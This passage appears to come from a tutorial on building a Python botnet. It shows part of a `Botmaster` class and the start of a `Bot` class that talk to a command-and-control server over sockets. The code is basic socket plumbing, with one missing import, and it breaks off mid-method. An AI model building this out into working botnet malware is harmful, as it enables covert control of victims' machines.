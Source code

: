 ```python
            print(f"[*] Data failed: {e}")
            sys.exit(1)

    def close(self):
        self.sock.close()
        print("[*] Connection closed")
```

Now let's breakdown all of what we've written above.

When we create a new instance of the `Botmaster` class, we pass in two arguments, `host` and `port`, which are used to connect to the command and control server.

The method `connect` is used to connect to the command and control server. It uses the `socket` module to create a socket and connect to the command and control server.

The method `send_command` is used to send commands to the bots. It takes one argument, `command`, which is the command to send to the bots. It uses the `socket` module to send the command to the command and control server.

The method `receive_data` is used to receive data from the bots. It uses the `socket` module to receive data from the command and control server.

The method `close` is used to close the connection to the command and control server. It uses the `socket` module to close the connection.

Before we explain the implementation of the `Botmaster` class, let's create continue with the creation of the bot.

## Creating the Bot

The bot's minimal functions include the ability to receive commands from the botmaster and send information to them, however the bot can also update the malware on the bots.

To start this off, we'll create a file called `bot.py` and create a class called `Bot` with the following functions:

```python
import socket
import json
import base64

class Bot:
    def __init__(self, host, port):
        self.host = host
        self.port = port

    def connect(self):
        try:
            self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            self.sock.connect((self.host, self.port))
            print(f"[*] Connected to {self.host}:{self.port}")
        except Exception as e:
            print(f"[*] Connection to {self.host}:{self.port} failed: {e}")
            sys.exit(1)

    def receive_command(self):
        try:
            command = self.sock.recv(1024).decode()
            print(f"[*] Command received: {command}")
        except Exception as e:
            print(f"[*] Command failed: {e}")
            sys.exit(1)

    def send_data(self, data):
        try:
            self.sock.send(data.encode())
```